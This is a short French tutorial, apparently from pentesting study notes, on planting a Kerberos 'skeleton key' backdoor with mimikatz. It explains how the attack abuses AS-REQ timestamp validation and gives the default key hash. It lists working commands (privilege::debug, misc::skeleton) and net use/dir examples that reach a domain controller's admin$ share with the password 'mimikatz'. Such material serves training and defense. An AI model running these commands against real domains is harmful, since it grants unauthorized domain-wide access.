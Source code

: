 # Creation de Backdoor Kerberos avec Mimikatz

En plus de maintenir l'accès à l'aide de "billets d'or et d'argent" :crown:, mimikatz a un autre atout dans ses manches lorsqu'il s'agit d'attaquer Kerberos.  

Contrairement aux attaques par ticket classiques, une porte dérobée Kerberos est beaucoup plus subtile car elle agit de la même manière qu'un rootkit en s'implantant dans la mémoire de la forêt de domaines, ce qui lui permet d'accéder à n'importe laquelle des machines avec un mot de passe principal.

La porte dérobée Kerberos fonctionne en implantant une clé squelette (_skeleton key_) qui abuse de la façon dont l'AS-REQ valide les horodatages chiffrés. Une clé squelette ne fonctionne qu'avec le cryptage Kerberos RC4.

Le hachage par défaut pour une clé squelette mimikatz est 60BA4FCADC466C7A033C178194C03DF6, ce qui rend le mot de passe -"mimikatz"

Ce ne sera qu'une section de présentation et ne vous obligera pas à faire quoi que ce soit sur la machine, mais je vous encourage à continuer vous-même et à ajouter d'autres machines et à tester en utilisant des clés squelettes avec mimikatz.

**Aperçu de la clé squelette** -

La clé squelette fonctionne en abusant des horodatages chiffrés AS-REQ comme je l'ai dit ci-dessus, l'horodatage est chiffré avec le hachage NT des utilisateurs.  
Le contrôleur de domaine essaie ensuite de déchiffrer cet horodatage avec le hachage NT des utilisateurs, une fois qu'une clé squelette est implantée, le contrôleur de domaine essaie de déchiffrer l'horodatage en utilisant à la fois le hachage NT de l'utilisateur et le hachage NT de la clé squelette vous permettant d'accéder à la forêt du domaine.



**Préparation de Mimikatz** -

1.) ```cd Downloads && mimikatz.exe``` - Accédez au répertoire dans lequel se trouve mimikatz et exécutez mimikatz

2.) ```privilege::debug``` - Cela devrait être une norme pour l'exécution de mimikatz car mimikatz a besoin d'un accès administrateur local



Installation de la clé squelette avec mimikatz -

1.) ```misc::skeleton``` - Oui ! c'est tout, mais ne sous-estimez pas cette petite commande elle est très puissante ☠️



**Accéder à la forêt** -

Les identifiants par défaut seront : "mimikatz"

exemple : ```net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz``` - Le partage sera désormais accessible sans avoir besoin du mot de passe Administrateurs

exemple : ```dir \\Desktop-1\c$ /user:Machine1 mimikatz``` - accéder au répertoire de Desktop-1 sans jamais savoir quels utilisateurs ont accès à Desktop-1

La clé squelette ne persistera pas par elle-même car elle s'exécute dans la mémoire, elle peut être scriptée ou persistée à l'aide d'autres outils et techniques, mais cela est hors de portée pour cette pièce.
